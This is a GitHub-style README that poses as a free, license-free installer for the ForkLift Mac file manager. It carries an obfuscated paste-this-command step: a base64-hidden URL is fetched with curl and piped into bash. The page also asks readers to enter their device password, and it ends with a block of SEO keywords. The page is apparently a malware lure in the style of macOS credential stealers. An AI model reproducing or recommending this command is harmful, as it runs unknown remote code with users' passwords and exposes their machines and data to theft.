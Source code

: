 # ForkLift for Mac
🔘 [![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/ForkLift)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 What You Unlock  

  🔓 Advanced dual-pane file management  

  📂 Seamless FTP, SFTP, and cloud integration  

  ⚡ Fast and intuitive UI  

  🛠 Batch rename, sync, and folder merging  

  🛡 No online validation or login required

🖼 Preview  

![ForkLift main screen](https://binarynights.com/images/main.png)  


![ForkLift main window](https://binarynights.com/images/manual/forklift-4-main_window.png)  


![ForkLift GUI](https://binarynights.com/images/manual/forklift-4-gui.png)  


🔍 SEO Keywords  

forklift mac, forklift mac os, forklift os x, forklift app mac, forklift ftp, forklift ftp client, mac os forklift, forklift mac download, forklift download, forklift mac free download, forklift free download, forklift file manager, forklift macbook, mac file manager forklift, forklift cloud sync, forklift dual pane, forklift mac setup, forklift mac installer, forklift offline, forklift file transfer, forklift batch rename, forklift productivity, forklift mac software, forklift macOS, forklift mac GUI, forklift fast file manager
